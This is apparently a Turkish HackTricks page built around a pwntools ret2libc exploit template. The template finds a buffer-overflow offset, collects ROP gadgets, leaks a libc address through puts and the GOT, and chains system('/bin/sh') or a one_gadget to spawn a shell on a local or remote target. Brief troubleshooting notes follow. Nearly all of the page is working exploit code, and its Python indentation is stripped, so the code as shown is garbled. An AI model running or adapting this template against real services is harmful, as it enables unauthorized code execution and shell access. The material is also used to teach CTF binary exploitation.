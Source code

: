 <details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>


{% code title="template.py" %}
```python
from pwn import ELF, process, ROP, remote, ssh, gdb, cyclic, cyclic_find, log, p64, u64  # Import pwntools


###################
### CONNECTION ####
###################
LOCAL = False
REMOTETTCP = True
REMOTESSH = False
GDB = False
USE_ONE_GADGET = False

LOCAL_BIN = "./vuln"
REMOTE_BIN = "~/vuln" #For ssh
LIBC = "" #ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it
ENV = {"LD_PRELOAD": LIBC} if LIBC else {}

if LOCAL:
P = process(LOCAL_BIN, env=ENV) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTETTCP:
P = remote('10.10.10.10',1339) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTESSH:
ssh_shell = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0', port=2220)
p = ssh_shell.process(REMOTE_BIN) # start the vuln binary
elf = ELF(LOCAL_BIN)# Extract data from binary
rop = ROP(elf)# Find ROP gadgets

if GDB and not REMOTETTCP and not REMOTESSH:
# attach gdb and continue
# You can set breakpoints, for example "break *main"
gdb.attach(P.pid, "b *main")



#########################
#### OFFSET FINDER ######
#########################

OFFSET = b"" #b"A"*264
if OFFSET == b"":
gdb.attach(P.pid, "c") #Attach and continue
payload = cyclic(264)
payload += b"AAAAAAAA"
print(P.clean())
P.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#print(cyclic_find(0x63616171)) # Find the offset of those bytes
P.interactive()
exit()



####################
### Find Gadgets ###
####################
try:
libc_func = "puts"
PUTS_PLT = ELF_LOADED.plt['puts'] #PUTS_PLT = ELF_LOADED.symbols["puts"] # This is also valid to call puts
except:
libc_func = "printf"
PUTS_PLT = ELF_LOADED.plt['printf']

MAIN_PLT = ELF_LOADED.symbols['main']
POP_RDI = (ROP_LOADED.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (ROP_LOADED.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
log.info("ret gadget: " + hex(RET))


########################
### Find LIBC offset ###
########################

def generate_payload_aligned(rop):
payload1 = OFFSET + rop
if (len(payload1) % 16) == 0:
return payload1

else:
payload2 = OFFSET + p64(RET) + rop
if (len(payload2) % 16) == 0:
log.info("Payload aligned successfully")
return payload2
else:
log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
return payload1


def get_addr(libc_func):
FUNC_GOT = ELF_LOADED.got[libc_func]
log.info(libc_func + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
rop1 = generate_payload_aligned(rop1)

# Send our rop-chain payload
#P.sendlineafter("dah?", rop1) #Use this to send the payload when something is received
print(P.clean()) # clean socket buffer (read all and print)
P.sendline(rop1)

# If binary is echoing back the payload, remove that message
recieved = P.recvline().strip()
if OFFSET[:30] in recieved:
recieved = P.recvline().strip()

# Parse leaked address
log.info(f"Len rop1: {len(rop1)}")
leak = u64(recieved.ljust(8, b"\x00"))
log.info(f"Leaked LIBC address,  {libc_func}: {hex(leak)}")

# Set lib base address
if LIBC:
LIBC.address = leak - LIBC.symbols[libc_func] #Save LIBC base
print("If LIBC base doesn't end end 00, you might be using an icorrect libc library")
log.info("LIBC base @ %s" % hex(LIBC.address))

# If not LIBC yet, stop here
else:
print("TO CONTINUE) Find the LIBC library and continue with the exploit... (https://LIBC.blukat.me/)")
P.interactive()

return hex(leak)

get_addr(libc_func) #Search for puts address in memmory to obtain LIBC base



#############################
#### FINAL EXPLOITATION #####
#############################

## Via One_gadget (https://github.com/david942j/one_gadget)
# gem install one_gadget
def get_one_gadgets(libc):
import string, subprocess
args = ["one_gadget", "-r"]
if len(libc) == 40 and all(x in string.hexdigits for x in libc.hex()):
args += ["-b", libc.hex()]
else:
args += [libc]
try:
one_gadgets = [int(offset) for offset in subprocess.check_output(args).decode('ascii').strip().split()]
except:
print("One_gadget isn't installed")
one_gadgets = []
return

rop2 = b""
if USE_ONE_GADGET:
one_gadgets = get_one_gadgets(LIBC)
if one_gadgets:
rop2 = p64(one_gadgets[0]) + "\x00"*100 #Usually this will fullfit the constrains

## Normal/Long exploitation
if not rop2:
BINSH = next(LIBC.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = LIBC.sym["system"]
EXIT = LIBC.sym["exit"]

log.info("POP_RDI %s " % hex(POP_RDI))
log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
log.info("exit %s " % hex(EXIT))

rop2 = p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) #p64(EXIT)
rop2 = generate_payload_aligned(rop2)


print(P.clean())
P.sendline(rop2)

P.interactive() #Interact with your shell :)
```
{% endcode %}

# Ortak sorunlar

## MAIN\_PLT = elf.symbols\['main'] bulunamadı

Eğer "main" sembolü mevcut değilse, sadece main kodunun nerede olduğunu bulabilirsiniz:
```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
ve adresi manuel olarak ayarlayın:
```python
MAIN_PLT = 0x401080
```
## Puts bulunamadı

Eğer ikili dosya Puts kullanmıyorsa, şunu kontrol etmelisiniz:

## `sh: 1: %s%s%s%s%s%s%s%s: bulunamadı`

Bu **hata**yı, tüm saldırıyı oluşturduktan sonra bulursanız: `sh: 1: %s%s%s%s%s%s%s%s: bulunamadı`

"/bin/sh" adresinden **64 bayt çıkarın**.
```python
BINSH = next(libc.search("/bin/sh")) - 64
```
<details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI'na**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin**.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud** github depolarına **PR göndererek paylaşın**.

</details>
